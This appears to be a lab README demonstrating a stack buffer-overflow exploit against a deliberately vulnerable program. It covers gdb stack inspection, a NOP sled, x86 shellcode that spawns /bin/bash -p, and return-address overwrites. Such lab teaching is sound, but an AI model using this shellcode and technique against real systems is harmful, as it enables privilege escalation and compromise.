 
# BOF Attack demo


## step1: 
firstly we need to run the vuln with the gdb environment: 
```bash
gdb vuln
```
we need to dicover the layout of the stack so we need firstly to define a breakpoint then we need to define a telescope function to see the content of the stack every time 

```bash 
b 21 // the line just before the vuln instruction 
define hook-stop 
 >x/40x $esp
 >end
```
then we need to see the changes in the memory based on this input 

```Bash
r `perl -e 'print 40x"A"'`
n
n
```
we notice here some special values that we have an interest to overwrite them, after reading the vuln source code we notice that we need to bypass the if statement related to the size as well as the uid 
we can put as a length 3 for example, the most important that we want to inject a shellcode

I've found this in the internet 
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80

I can just add it to my input and adjust the padding so I can overwrite this perfectly and then we need to modify the return address to sth point to the shellcode 

in my case this is the input that fulfill all the requirements above 
``` bash 
perl -e 'print "\x90"x15 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"."\x90"x35 . "\xc0\xdf\x9e\xff" . "\x4a\xf8" . "\x03"x7'
```


## step2

we need to fit the output above to the real C environment and we need as well to execute it with the runner 
``` bash 
env - gdb runner 
``` 
and then we need to execute the following commands 
```gdb
unset env LINES 
unset env COLUMNS 
b 24 
define hook-stop
>p/x $esp 
>end
r `perl -e 'print 130x"A"'`
n
```

then we store the address of the esp 


after obtaining the real esp we need to calculate the offset which is the new_esp - old_esp 

then we add this value to the last return address and run the command 

in my case this is the final input 

```bash
env - PWD=$PWD ./runner `perl -e 'print "\x90"x15 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\
x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"."\x90"x35 . "\x90\x45\xcb\xff" . "\xa3\x86" . "\x03"x7'`
```

